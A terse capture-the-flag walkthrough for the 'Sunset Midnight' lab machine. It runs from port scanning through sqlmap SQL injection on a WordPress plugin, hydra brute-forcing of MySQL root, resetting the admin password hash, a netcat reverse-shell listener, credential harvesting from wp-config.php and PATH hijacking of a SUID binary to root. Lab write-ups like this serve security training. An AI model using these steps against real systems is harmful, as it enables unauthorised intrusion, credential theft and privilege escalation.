


# Sunset Midnight

***

IP=192.168.155.88

| PORT     | STATE | SERVICE |
| -------- | ----- | ------- |
| 22/tcp   | open  | ssh     |
| 80/tcp   | open  | http    |
| 3306/tcp | open  | mysql   |

## NMAP

```perl
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open   http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3036/tcp closed hagel-dump
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
whatweb http://$IP
http://192.168.155.88 [301 Moved Permanently] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.155.88], RedirectLocation[http://sunset-midnight/], UncommonHeaders[x-redirect-by]
```

### /etc/hosts

```txt
IP  midnight-host
```

### Wordpress

WordPress 5.4.2

#### simply-poll-master

vulnerable to sqli

```bash
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2"
```

## Mysql 3306

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql -t 5
```

> root:robert

```bash
echo -n "password" | md5sum
5f4dcc3b5aa765d61d8327deb882cf99
```

```mysql
use wordpress_db;
update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1;
```

## Login wordpress


<figure><figcaption></figcaption></figure>

```bash
nc -lvnp 1234
```

## PrivEsc

```bash
cat /var/www/html/wordpress/wp-config.php
```

jose:645dc5a8871d2a4269d4cbe23f6ae103

### Unknown SUID binary

```bash
strings /usr/bin/status
```


<figure><figcaption></figcaption></figure>

### Path hijacking

```bash
export PATH=/tmp/:$PATH
cd /tmp
touch service
echo "/bin/sh" > service
chmod +x service
/usr/bin/status
```
